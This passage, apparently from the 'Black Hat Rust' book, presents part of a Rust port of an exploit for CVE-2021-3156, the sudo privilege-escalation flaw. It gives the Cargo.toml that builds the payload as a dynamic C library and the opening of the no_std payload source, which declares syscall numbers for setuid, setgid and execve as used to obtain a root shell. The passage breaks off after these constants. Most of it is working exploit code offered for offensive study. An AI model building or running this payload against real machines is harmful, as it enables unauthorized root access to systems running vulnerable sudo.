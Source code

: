 
This exploit was ported from [CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156).


The payload for this exploit is not a raw shellcode. Instead, it's a dynamic `C` library.

To build a dynamic `C` library from Rust code, we need to configure Cargo accordingly.

**[ch_07/exploits/cve_2021_3156/payload/Cargo.toml](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/payload/Cargo.toml)**

```toml
[package]
name = "payload"
version = "0.1.0"
authors = ["Sylvain Kerkour <sylvain@kerkour.com>"]
edition = "2021"

[lib]
name = "x"
crate_type = ["dylib"]

[profile.dev]
panic = "abort"

[profile.release]
panic = "abort"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
```



**[ch_07/exploits/cve_2021_3156/payload/src/lib.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_07/exploits/cve_2021_3156/payload/src/lib.rs)**
```rust
#![no_std]

use core::arch::asm;

#[panic_handler]
fn panic(_: &core::panic::PanicInfo) -> ! {
    loop {}
}

const STDOUT: u64 = 1;
// https://filippo.io/linux-syscall-table/
const SYS_WRITE: u64 = 1;
const SYS_EXIT: u64 = 60;
const SYS_SETUID: u64 = 105;
const SYS_SETGID: u64 = 106;
const SYS_GETUID: u64 = 102;
const SYS_EXECVE: u64 = 59;
```
